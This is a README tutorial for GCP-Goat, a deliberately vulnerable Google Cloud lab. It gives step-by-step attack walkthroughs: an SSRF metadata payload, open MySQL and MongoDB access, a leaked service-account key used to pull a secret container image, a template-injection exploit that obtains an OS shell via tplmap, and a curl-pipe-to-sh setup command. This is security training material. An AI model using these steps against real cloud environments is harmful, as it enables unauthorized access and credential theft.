GCP GOAT
GCP-Goat is intentionally vulnerable GCP environment to learn and practice GCP Security
⚠️ Disclaimer
GCP Goat is the intentionally vulnerable GCP Setup .Don't Deploy this in production Environment
GCP Goat comes with absolutely no warranties whatsoever. By using GCP Goat, you take full responsibility for any outcomes that result.
About the author
GCP goat was created by Joshua Jebaraj
Joshua Jebaraj is Security Enthusiast. He is an active member of many open-source communities like Null, Ansible and Hashicorp He frequently speaks at null Chennai chapter and OWASP Vit Chennai. He also Spoken at conferences like Owasp-Seasides and Bsides-Delhi . When away from the screen he can be found at watching movies and making memes
Getting Started
This tutorial assumes that you have Google Cloud Account with Billing Enabled in order to create the resources need for the Setup
If you have don't have the Google Cloud Account Create one by following the given link Get Started with Google Cloud Platform
Go to the Google-Console
Create the new Project by Clicking Select Project

Create the new Project by Clicking New Project

Enter a Valid name and click Create
Go to the API Dashboard
Click on the ENABLE API AND SERVICES

Search for Compute Engine API and click Enable

Repeat the Same for the Kubernetes Engine API and for the Cloud SQL Admin API
Once you have done Go to the GCloud Shell by clicking the terminal icon in top right corner

Once you are inside the Shell make sure the shell points to the current project

clone the repository by typing the following command in the GCLOUD SHELL
git clone https://github.com/JOSHUAJEBARAJ/GCP-Goat.git
Move into the Scenarios folder by typing the following command in the GCLOUD SHELL
cd GCP-Goat/scenarios/
Attacking Google Compute Engine
In order to start the scenario go to the scenario-1 folder by typing the below command in the GCLOUD Shell
cd scenario-1
Start the Scenario by typing the below command in the GCLOUD Shell
./create-scenario-1.sh
Note: It takes some time in to install and Start the docker container so be patient 🧘♂️
Scenario Info
SSRF is the most common Vulnerability found in the cloud Environment .
According to OWASP
In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources
In order to learn more about SSRF in Google Cloud I highly recommend to check out Tutorial on privilege escalation and post exploitation tactics in Google Cloud Platform environments by Chris Moberly
In our Scenario, we assume Our application was Suffering from SSRF vulnerability
Go to the IP address shown in the output of the executed script
On Visiting the URL using the browser The application should look like below Screenshot

Solution
Now enter the payload http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text in the URL field and Metadata-Flavor: Google in the header field and Click CHECK STATUS Button

Now you could able to see all the meta-data of the Compute-Engine
Note In recent version Compute Engine SSRF is only possible if you able to pass the
headersasMetadata-Flavor: Google
Clean up
To clean up the Scenario type the below command in the GCLOUD Shell
./delete-scenario-1.sh
Move into the previous folder by typing the below command in the GCLOUD Shell
cd ..
Attacking SQL Instance
In order to start the scenario go to the scenario-2 folder by typing the below command in the GCLOUD Shell
cd scenario-2
Start the Scenario by typing the below command in the GCLOUD Shell the script expects the user to give the name
Note if you try to deploy the same scenario create with the different name because reusing the same name will create conflicts
./create-scenario-2.sh <SQL INSTANCE NAME>
Note : It takes too long to create the
instanceso be patient 🧘♂️
Scenario info
Google SQL allows developers to set up the database without any hassle by default the database can be accessed only within the authorized network but during debugging the database sometimes the user may open the database to the public for easy debugging In this Scenario the attacker gets to know to about the public-facing SQL Instance
Solution
Running Nmap Scan on the IP reveals that MySQL service was running on the given instance

In order to get remote access to the instance MySQL client has to be Installed
We can easily Install the MYSQL-client by following the offical docs
Now type the below command in the terminal to connect to the remote SQL instance running in the Google Cloud
mysql -u root -h <ip>

Note This scenario assumes there was no authentication for the database , but in real world may find some weak credentials
Clean up
To clean up the Scenario type the below command in the GCLOUD Shell
./delete-scenario-2.sh <SQL INSTANCE NAME>
Move into the previous folder by typing the below command in the GCLOUD Shell
cd ..
Attacking Google Kubernetes Engine
Inorder to start the scenario go to the scenario-3 folder by typing the below command in the GCLOUD SHELL
cd scenario-3
Start the Scenario by typing the below command in the GCLOUD SHELL
./create-scenario-3.sh
Note : It takes too long in order to setup the
kubernetes clusterso be patient 🧘♂️
Scenario info
GKE allows the user to set up the Kubernetes environment without much hassle ,By default the application running in the pod are not exposed outside world. To access the service outside the cluster there are 3 type of services can be use
- NodePort
- Loadbalancer
- Ingress
Sometimes the application exposed via Nodeport may contains the sensitive information or services which meant to be used internally without authentication
Solution
Type the below command the in the GCLOUD SHELL to find the IP of nodes
kubectl get nodes -o wide
Now go to the browser and enter the below URL
<NODE-IP>:30003

This reveals that the MongoDB service running on the node
Now similar to MySQL we will try to connect to the MongoDB database remotely
To connect from the mongo remotely we have to install MongoDB If you don't have MongoDB Installed you can easily Install by following Official Docs
Now try to connect to the remote instance by typing the below command in the terminal
mongo --host <ip>:30003

You could see we get the shell access to mongo-db instance
If you are interested more on the Kubernetes I highly recommend to check out Kubernetes-Goat
Clean up
To clean up the Scenario type the below command in the GCLOUD SHELL
./delete-scenario-3.sh
Move into the previous folder by typing the below command in the GCLOUD SHELL
cd ..
Attacking Google Cloud Storage
In order to start the scenario go to the scenario-4 folder by typing the below command in the GCLOUD Shell
cd scenario-4
Start the Scenario by typing the below command in the GCLOUD Shell the script expects the user to give the Service name
Note if you try to deploy the same scenario use different service account name, because reusing same the name will create conflicts and Also make sure to use the SERVICE ACCOUNT NAME with the length between 6 and 30
./create-scenario-4.sh <SERVICE-ACCOUNT_NAME>
Scenario info
Public-Facing Google Bucket is the most common vulnerability in the GCP environment Users often create the bucket with public access in order to use the data stored in the bucket to be used by external application ,Sometimes this leads leakage of sensitive information
Solution
Go to the URL shown in the output the above script

Now open the URL in the browser On opening the URL it shows there was a file called service-key.json

Download the file by typing the below command in the GCLOUD Shell
wget <URL>/service-key.json
Executing cat command on the service-key.json reveals that it was service account key

In the next Scenario we will see how to use the obtained key
Clean up
To clean up the Scenario type the below command in the GCLOUD Shell
./delete-scenario-4.sh
Move into the previous folder by typing the below command in the GCLOUD Shell
cd ..
Privilege escalation Using Service account
Note This scenario was based on the previous scenario So before continuing this scenario please make sure that you have completed the previous one
Inorder to start the scenario go to the scenario-5 folder by typing the below command in the GCloud Shell
cd scenario-5
Start the Scenario by typing the below command in the GCloud Shell
./create-scenario-5.sh
Scenario Info
Google Container Registry Allows to store our container Registry Google Container Registry uses Google Storage Bucket to store the image So anyone with admin access to the bucket can download the image
Scenario Solution
In order to get access to the bucket, we are going to use Service-Account-Key that we obtain in the previous scenario
Before proceeding with the scenario copy the key from the scenario-4 directory to the current directory by typing the below command
cd ..
cp scenario-4/service-key.json scenario-5/service-key.json
cd scenario-5
Now activate the service account using the key by typing the below command in the GCloud Shell
gcloud auth activate-service-account --key-file=service-key.json
Now list the container stored in Google Container Registry by typing the below command in the GCloud Shell
gcloud container images list

Now download and run the container by typing the below command in the GCloud Shell
docker run --rm -ti gcr.io/<project-name>/secret:v1 sh
make sure to add the tag in the Container Name The name should be in the format of gcr.io/
/secret:v1
On listing down the file container using ls command there was a file called secret

Now perform cat on the file to see the content on the File

Get out of the container shell by typing exit in the shell
Clean up
Before cleaning the scenario switch back to the original account by typing below command in the GCloud Shell
gcloud config set account <email>
To clean up the Scenario type the below command in the GCloud Shell
Note this name should be the same name that we used to create the scenario-4
./delete-scenario-5.sh <SERVICE-ACCOUNT_NAME>
Privilege Escalation in Compute Engine
Inorder to start the scenario go to the scenario-6 folder by typing the below command in the GCLOUD SHELL
cd scenario-6
Start the Scenario by typing the below command in the GCLOUD Shell
./create-scenario-6.sh
Note: It takes some time , so be patient 🧘♂️ Note down the ip
Now Go to the Compute Engine -> VMInstance

Now click on the ssh , the New browser window will be open ssh-terminal

Type the below command in the terminal
curl https://raw.githubusercontent.com/JOSHUAJEBARAJ/hack/main/setup.sh | sh
Python Server will be started
Scenario Info
According to Google Documentation
A service account is a special kind of account used by an application or a virtual machine (VM) instance, not a person. Applications use service accounts to make authorized API calls, authorized as either the service account itself, or as Google Workspace or Cloud Identity users through domain-wide delegation.
The default service account created with the VM Instance doesn't follow the least privilege principle be default its able to access the Google cloud bucket
Now Go to the below url
http://<ip-address>/page?name=Joshua

Now try to use the different paramater
 Check whether the application is vulnerable to the template Injection
Check whether the application is vulnerable to the template Injection
http://<ip>/page?name={{7*7}}
You could see the application is vulnerable to template-Injection.

Solution
To exploit this vulnerability we are going to use the tool called tplmap
./tplmap.py -u 'http://<ip>/page?name=John'
you will get the output like this

Now try to get the shell in the application
./tplmap.py -u 'http://<ip>/page?name=jebaraj' --os-shell
Now inside the shell try to list the bucket
gsutil ls
 You will see the all buckets present in the project
You will see the all buckets present in the project
Clean up
To clean up the Scenario type the below command in the GCLOUD Shell
./delete-scenario-6.sh
Wrapping up
Once you have done the all scenarios To avoid any extra charges and to make sure all resources are deleted , Delete the project
gcloud projects delete PROJECT_ID
Contributing to the GCP GOAT
Thanks for Showing Interest to Contribute to the GCP-GOAT
Here are the few ways you can contribute
- Improving the Documentation
- Adding More Scenarios to the GOAT
- Improving the Application used in the Scenarios
- Spreading the word with the community